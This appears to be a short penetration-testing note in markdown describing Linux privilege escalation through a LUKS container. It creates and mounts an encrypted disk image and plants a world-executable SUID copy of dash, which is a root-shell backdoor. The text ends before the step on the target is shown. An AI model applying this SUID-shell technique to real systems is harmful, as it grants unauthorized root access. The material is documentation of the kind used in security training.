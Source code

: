 ### Privilege Escalation with Luks container

We can create a luks container with a SUID file on it an run it as root to escalate priviliges:

Create an empty virtual disk

```bash
sudo dd if=/dev/zero of=test.luks bs=1M count=64
64+0 records in                     
64+0 records out        
67108864 bytes (67 MB, 64 MiB) copied, 0.0642253 s, 1.0 GB/s
```

Initialize luks partion:

```bash
sudo cryptsetup luksFormat test.luks                          
WARNING!                      
========                      
This will overwrite data on test.luks irrevocably.                                                                                                  
Are you sure? (Type uppercase yes): YES                       
Enter passphrase for test.luks:         
Verify passphrase:
```

Open the encrypted container:

```bash
sudo cryptsetup luksOpen test.luks testtest                                
Enter passphrase for test.luks:
```

Create the filesystem:

```bash
sudo mkfs.ext4 /dev/mapper/testtest
ke2fs 1.45.5 (07-Jan-2020)
Creating filesystem with 12288 4k blocks and 12288 inodes

Allocating group tables: done                             
Writing inode tables: done                             
Creating journal (1024 blocks): done
Writing superblocks and filesystem accounting information: done
```

Mount it

```bash
sudo mount /dev/mapper/testtest /mnt/
```

Copy `/bin/bash` with the SUID:

```bash
sudo cp /bin/dash /mnt
sudo chmod 4777 /mnt/dash
```
